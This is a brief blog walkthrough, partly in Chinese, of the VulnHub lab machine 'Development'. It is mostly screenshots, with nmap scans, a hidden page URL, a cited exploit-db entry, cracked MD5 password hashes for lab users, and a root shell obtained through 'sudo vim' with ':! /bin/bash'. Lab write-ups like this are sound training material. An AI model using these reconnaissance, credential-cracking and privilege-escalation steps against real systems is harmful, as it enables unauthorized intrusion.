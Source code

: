 ```yaml
---
layout: post
title:  "Development"
description: walkthrough
category: vulnhub
---
```

# Development



```bash
sudo nmap -Pn -v -p- -sS -T5 192.168.43.16
```



![image-20200609015640191]({{ site.url }}/assets/Development.assets/image-20200609015640191.png)

```bash
sudo nmap -v -T4 -sC -sV -p22,113,139,445,8080 192.168.43.16
```

![image-20200609020305877]({{ site.url }}/assets/Development.assets/image-20200609020305877.png)

![image-20200609020436469]({{ site.url }}/assets/Development.assets/image-20200609020436469.png)

![image-20200609020522951]({{ site.url }}/assets/Development.assets/image-20200609020522951.png)



![image-20200609025850000]({{ site.url }}/assets/Development.assets/image-20200609025850000.png)



![image-20200609030000322]({{ site.url }}/assets/Development.assets/image-20200609030000322.png)



![image-20200609025927392]({{ site.url }}/assets/Development.assets/image-20200609025927392.png)

![image-20200609030308050]({{ site.url }}/assets/Development.assets/image-20200609030308050.png)

![image-20200609034055766]({{ site.url }}/assets/Development.assets/image-20200609034055766.png)

```bash
http://192.168.43.16:8080/developmentsecretpage
```

![image-20200609030352781]({{ site.url }}/assets/Development.assets/image-20200609030352781.png)

![image-20200609033609532]({{ site.url }}/assets/Development.assets/image-20200609033609532.png)

![image-20200609033628979]({{ site.url }}/assets/Development.assets/image-20200609033628979.png)

随便尝试一个密码

![image-20200609033732483]({{ site.url }}/assets/Development.assets/image-20200609033732483.png)

slogin_lib.inc.php

![image-20200609075811498]({{ site.url }}/assets/Development.assets/image-20200609075811498.png)

https://www.exploit-db.com/exploits/7444

![image-20200609082652891]({{ site.url }}/assets/Development.assets/image-20200609082652891.png)



![image-20200609081843908]({{ site.url }}/assets/Development.assets/image-20200609081843908.png)

```bash
admin, 3cb1d13bb83ffff2defe8d1443d3a0eb
intern, 4a8a2b374f463b7aedbb44a066363b81	12345678900987654321
patrick, 87e6d56ce79af90dbe07d387d3d0579e	P@ssw0rd25
qiu, ee64497098d0926d198f54f6d5431f98		qiu
```

![image-20200609083553230]({{ site.url }}/assets/Development.assets/image-20200609083553230.png)

![image-20200609083648687]({{ site.url }}/assets/Development.assets/image-20200609083648687.png)

![image-20200609083738715]({{ site.url }}/assets/Development.assets/image-20200609083738715.png)



![image-20200609083817145]({{ site.url }}/assets/Development.assets/image-20200609083817145.png)

```bash
patrick@development:/home/intern$ sudo /usr/bin/vim
:! /bin/bash
```

![image-20200609084017496]({{ site.url }}/assets/Development.assets/image-20200609084017496.png)







